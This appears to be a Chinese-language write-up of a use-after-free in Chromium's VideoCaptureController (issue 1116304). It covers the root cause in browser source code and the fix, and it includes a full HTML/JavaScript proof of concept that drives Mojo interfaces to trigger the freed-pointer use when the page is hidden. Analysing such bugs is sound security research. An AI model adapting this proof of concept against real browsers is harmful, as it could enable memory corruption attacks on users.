

https://bugs.chromium.org/p/chromium/issues/detail?id=1116304

### Root case

```
void VideoCaptureController::OnDeviceLaunched(
    std::unique_ptr<LaunchedVideoCaptureDevice> device) {
  DCHECK_CURRENTLY_ON(BrowserThread::IO);
  EmitLogMessage(__func__, 3);
  launched_device_ = std::move(device);
  for (auto& entry : buffer_contexts_)
    entry.set_consumer_feedback_observer(launched_device_.get());
  if (device_launch_observer_) {
    device_launch_observer_->OnDeviceLaunched(this);
  }
}
```
在OnDeviceLaunched函数中，在consumer_feedback_observer_中保存了launched_device_的实际指针。


```
void VideoCaptureManager::ReleaseDevices() {
  DCHECK_CURRENTLY_ON(BrowserThread::IO);

  for (auto& controller : controllers_) {
    // Do not stop Content Video Capture devices, e.g. Tab or Screen capture.
    if (controller->stream_type() !=
        blink::mojom::MediaStreamType::DEVICE_VIDEO_CAPTURE)
      continue;

    DoStopDevice(controller.get()); //[2]
  }
}
```
当stop device时[3]处，会调用下面的函数VideoCaptureController::ReleaseDeviceAsync。

```
void VideoCaptureController::ReleaseDeviceAsync(base::OnceClosure done_cb) {
  DCHECK_CURRENTLY_ON(BrowserThread::IO);
  TRACE_EVENT0(TRACE_DISABLED_BY_DEFAULT("video_and_image_capture"),
               "VideoCaptureController::ReleaseDeviceAsync");
  std::ostringstream string_stream;
  string_stream << "VideoCaptureController::ReleaseDeviceAsync: serial_id = "
                << serial_id() << ", device_id = " << device_id();
  EmitLogMessage(string_stream.str(), 1);
  if (!launched_device_) {
    device_launcher_->AbortLaunch();
    return;
  }
  launched_device_.reset(); //[3]
}
```
VideoCaptureController::ReleaseDeviceAsync函数中，会reset掉launched_device_，但是他的实际指针还保存在observer中，它并没有做任何修改。


```
void VideoCaptureController::BufferContext::DecreaseConsumerCount() {
  consumer_hold_count_--;
  if (consumer_hold_count_ == 0) {
    if (consumer_feedback_observer_ != nullptr &&
        max_consumer_utilization_ !=
            media::VideoFrameConsumerFeedbackObserver::kNoUtilizationRecorded) {
      consumer_feedback_observer_->OnUtilizationReport(
          frame_feedback_id_, max_consumer_utilization_);
    }
    buffer_read_permission_.reset();
    max_consumer_utilization_ =
        media::VideoFrameConsumerFeedbackObserver::kNoUtilizationRecorded;
  }
}
```
之后使用consumer_feedback_observer_将会触发uaf。


### patch




增加了置空操作，去掉了残留的raw pointer，也就不会导致uaf了。


### poc

```
<script src="./mojo_bindings.js"></script>
<script src="./third_party/blink/public/mojom/mediastream/media_stream.mojom.js"></script>
<script src="./media/capture/mojom/video_capture.mojom.js"></script>
<script src="./third_party/blink/public/mojom/blob/blob_registry.mojom.js"></script>
<script>
    for(var e in mojo.internal.validationError)mojo.internal.validationError[e]='';

    var media_stream_ptr = new blink.mojom.MediaStreamDispatcherHostPtr();
    Mojo.bindInterface(blink.mojom.MediaStreamDispatcherHost.name,mojo.makeRequest(media_stream_ptr).handle);

    var media_stream_ctrler = Object.assign(new blink.mojom.StreamControls,{
        audio : Object.assign(new blink.mojom.TrackControls,{
            requested : false,
            streamType : blink.mojom.MediaStreamType.NO_SERVICE,
            deviceId : "",
        }),
        video : Object.assign(new blink.mojom.TrackControls,{
            requested : true,
            streamType : blink.mojom.MediaStreamType.DEVICE_VIDEO_CAPTURE,
            deviceId : "",
        }),
        hotwordEnabled : false,
        disableLocalEcho : false,
    });

    var media_stream_selection_info = new blink.mojom.StreamSelectionInfo();
    media_stream_selection_info.strategy = blink.mojom.StreamSelectionStrategy.FORCE_NEW_STREAM;

    // VC
    var vch_ptr = new media.mojom.VideoCaptureHostPtr();
    Mojo.bindInterface(media.mojom.VideoCaptureHost.name, mojo.makeRequest(vch_ptr).handle, "process");

    var params = Object.assign(new media.mojom.VideoCaptureParams, {
        requestedFormat: Object.assign(new media.mojom.VideoCaptureFormat, {
            frameSize: Object.assign(new gfx.mojom.Size, {
                width: 0, height: 0
            }),
            frameRate: 0,
            pixelFormat: media.mojom.VideoCapturePixelFormat.I420
        }),
        bufferType: media.mojom.VideoCaptureBufferType.kSharedMemory,
        resolutionChangePolicy: media.mojom.ResolutionChangePolicy.FIXED_ASPECT_RATIO,
        powerLineFrequency: media.mojom.PowerLineFrequency.HZ_50,
        enableFaceDetection: true
    });
    function VideoCaptureObserverImpl() {
        this.binding = new mojo.Binding(media.mojom.VideoCaptureObserver, this);
    }
    VideoCaptureObserverImpl.prototype = {
        onStateChanged: async (r0) => {
            console.log("onStateChanged");
        },onNewBuffer: async (r0, r1) => {
            console.log("onNewBuffer");
            console.log(r0);
        },onBufferReady: async (r0, r1) => {
            console.log("onBufferReady");
        },onBufferDestroyed: async (r0) => {
            console.log("onBufferDestroyed");
        }
    };
    function deviceToken(high, low) {
        let deviceIdToken = {};
        deviceIdToken.high = high;
        deviceIdToken.low = low;
        return deviceIdToken;      
    };
    function createVideoObserver() {
        video_capture_observer = new VideoCaptureObserverImpl();
        video_capture_observer_ptr = new media.mojom.VideoCaptureObserverPtr();
        video_capture_observer.binding.bind(mojo.makeRequest(video_capture_observer_ptr));
        return video_capture_observer_ptr;
    };

    var a12 = media_stream_ptr.generateStream(1,media_stream_ctrler,true,media_stream_selection_info);
    a12.then(result=>{
        vch_ptr.start(deviceToken(0, 1), result.videoDevices[0].sessionId, params, createVideoObserver());
    });

    document.addEventListener('visibilitychange', function(){
        if(document.visibilityState === 'hidden'){
            console.log("hidden");
            vch_ptr.releaseBuffer(deviceToken(0, 1),0,0);
        }
        if(document.visibilityState === 'visible'){
            console.log("visible");
        }
    });

</script>
<body>
<a href = "mailto:xxxxx@xxx.com" >mail-to: xxxxx@xxx.com</a>
</body>
```
